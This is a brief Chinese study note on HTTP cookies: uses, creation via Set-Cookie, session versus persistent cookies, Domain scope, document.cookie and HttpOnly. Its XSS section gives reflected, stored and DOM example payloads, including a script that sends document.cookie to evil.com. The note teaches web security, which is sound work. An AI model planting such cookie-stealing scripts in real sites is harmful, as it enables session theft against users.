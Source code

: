 用途

> - 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
> - 个性化设置（如用户自定义设置、主题等）
> - 浏览器行为跟踪（如跟踪分析用户行为等）

创建过程

> 1. 服务器发送的响应报文中会有 Set-Cookie字段，客户端会将Cookie内容字段保存到浏览器中
>
> 2. 客户端之后对同一个服务器发送请求时，会从浏览器中取出 Cookie 信息并通过 Cookie 请求首部字段发送给服务器

分类

> - 会话期 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。<mark>只在当前浏览器会话中有效</mark>
> - 持久性 Cookie：有设置过期时间（Expires）或有效期（max-age）就称为持久性的Cookie。<mark>即使浏览器关闭后仍然保留，直到过期</mark>

作用域Domain 

> 规定了当前主机下面的哪些子域名可以接受当前的Cookie
>
>
> 例如：Set-Cookie: token=abc123; Domain=example.com; Path=/; HttpOnly;
> 那么当前主机下面的所有包含example.com的子域名都可以共享Cookie
>
> 会被 example.com、www.example.com、api.example.com 等所有子域共享

Javascript

> 客户端使用Javascript设置Cookie
>
> 用document.cookie来设置Cookie
>
> 
>
> 这样容易招到XSS(跨站脚本攻击)：
>
> 1. 反射型XSS：攻击代码嵌在 URL 里，服务器没做过滤，原样返回给用户 → 浏览器执行
>
> http://example.com/search?q=<script>alert('XSS')</script>
>
> 2. 存储型XSS：恶意脚本被保存到数据库或评论系统、论坛等地方，所有人都会执行这段
>
> <script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
>
> 3. DOM型XSS：服务器并没有返回恶意脚本，浏览器自己进行拼接的
>
> http://example.com/#<script>alert('XSS')</script> 
>
> /# 后面的内容是不会被服务器看到的，后面的内容是哈希部分
>
> 前端插入到网页里没有进行任何的转义

HttpOnly

> 标记为 HttpOnly 的 Cookie 不能被 JavaScript 脚本调用
